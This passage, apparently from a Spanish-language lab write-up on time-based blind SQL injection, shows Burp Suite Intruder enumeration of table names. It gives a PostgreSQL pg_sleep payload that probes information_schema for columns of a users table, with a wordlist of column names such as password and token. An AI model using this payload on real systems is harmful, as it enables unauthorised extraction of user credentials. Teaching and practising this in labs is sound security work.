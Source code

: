 ```text
products
items
inventory
orders
order_items
sales
transactions
pricing
categories
customers
clients
users
profiles
subscriptions
addresses
```

![Intruder]({{site.url}}/images/SQLi/sqli-14/intruder.png)

Realizamos la carga de payloads y tener en cuenta cambiar el `Resource Pool` a 1

![Pool]({{site.url}}/images/SQLi/sqli-14/pool.png)

La tabla que se demoro mas en responder fue la de users.

![Respuesta]({{site.url}}/images/SQLi/sqli-14/respuesta.png)

## Comprobamos nombres de los campos que tiene la tabla users

Donde se encuentra `payload` realizar el ataque de diccionario con BurpSuite

```sql
' || (SELECT CASE WHEN (EXISTS(SELECT 1 FROM information_schema.columns WHERE table_name='users' AND column_name='payload')) THEN pg_sleep(10) ELSE pg_sleep(2) END)--
```

Lista de nombres para listar columnas de una tabla.
```list
id
user_id
username
email
phone_number
uuid
password
hashed_password
salt
token
last_login
login_attempts
first_name
last_name
full_name
date_of_birth
gender
address
city
state
country
postal_code
role
role_id
permissions
is_admin
```